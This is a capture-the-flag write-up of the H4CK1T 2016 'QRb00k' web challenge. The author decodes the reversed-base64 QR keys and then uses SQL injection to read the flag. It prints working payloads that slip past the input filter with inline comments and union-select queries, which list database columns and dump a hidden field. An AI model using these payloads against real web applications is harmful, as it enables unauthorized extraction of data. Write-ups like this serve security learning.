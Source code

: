 ```yaml
---
title: '[H4CK1T 2016] QRb00k – Russia Writeup'
author: Megabeets
type: posts
date: 2016-10-03T00:35:37+00:00

categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

<img src="./h4ck1t_russia_1.png" /> 

We got a QR code which is the key to read our message:

<img src="./h4ck1t_russia_2-279x300.png" /> 

Now let&#8217;s read the message using the QR code:

<img src="./h4ck1t_russia_3-271x300.png" /> 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

<img src="./h4ck1t_russia_4.png" /> 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

```python
>>> "==QehRXS"[::-1].decode('base64')
'Itay'
```


Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

<img src="./h4ck1t_russia_5.png" /> 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

```mysql
'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets
```


<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<img src="./h4ck1t_russia_6-1024x478.png" /> 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

```mysql
'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_7-1024x679.png" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

```mysql
'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_8-1024x744.png" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂



 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/